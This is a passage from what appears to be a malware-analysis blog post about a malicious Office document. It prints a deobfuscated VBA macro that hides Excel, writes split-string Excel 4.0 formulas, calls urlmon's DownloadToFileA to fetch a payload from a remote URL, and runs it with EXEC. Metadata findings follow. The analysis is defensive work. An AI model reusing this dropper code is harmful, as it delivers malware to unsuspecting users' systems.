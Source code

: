   WorksheetsD.Add Before:=WorksheetsD(1), Count:=1, Type:=mynumber
  
  ExcelSheet.Application.Visible = 0
  
  ExcelSheet.Range("A127").Name = pap
  
  ExcelSheet.Range("A127") = "=ERR" + "OR" + "(FALSE)"
  
  ExcelSheet.Application.Cells(129, 1).Value = "=I" + "F(ISNUMBER(SEARCH(""32"",GET.WORKSPACE(1))), GOTO(B127), GOTO(C127))"
  
  ExcelSheet.Application.Cells(131, 2).Value = "=E" + "XEC(""" + maxi + """)"
  
  ExcelSheet.Range("B133") = "=CLOSE(FALSE)"
  
  ExcelSheet.Application.Cells(129, 3).Value = "=C" + "AL" & Chr(76) & "(""" + u + """, """ + l + """, ""BBCC" & Chr(66) & "B"", 0, """ + titu + """, """ + maxi + """, 0, 0)" + "=E" + "XEC" + "(""" + maxi + """)"

  ExcelSheet.Range("C133") = "=C" + "LOSE(FALSE)"
  
  ExcelSheet.Sheets(1).Visible = 2
  
  ExcelSheet.Run pap
  
  ExcelSheet.Application.Quit
  
  Set ExcelSheet = Nothing
  
End Sub
{% endhighlight %}

From my understanding, a new Excel instance is being created, as well as a workbook and worksheet named WorksheetsD. WorksheetsD is inserted as the sheet before, or at the first index with the sheet type of mynumber which is 8. ExcelSheet.Application.Visible = 0 ensures that the malicious macro performs its behavior in the background.

Then we have this line:

{% highlight ruby %}
ExcelSheet.Application.Cells(129, 3).Value = "=C" + "AL" & Chr(76) & "(""" + u + """, """ + l + """, ""BBCC" & Chr(66) & "B"", 0, """ + titu + """, """ + maxi + """, 0, 0)" + "=E" + "XEC" + "(""" + maxi + """)"
{% endhighlight %}

Which, after adding all the deobfuscated Chr() together, calls (CALL=) the urlmon library for DownloadToFileA to download the file at the bit.do URL and then execute it with EXEC.

Running exiftool for metadata collection reveals a few key details.

![Alt text](/assets/images/2025/AveMaria/5-exiftool.png)

The document was written by “Microsoft account” and last modified by “Administrator” Both the creation date and modification date are close to one another, and the presence of poc.exe in the comments field may indicate that it is dropped on the system during macro execution.

Thanks for reading!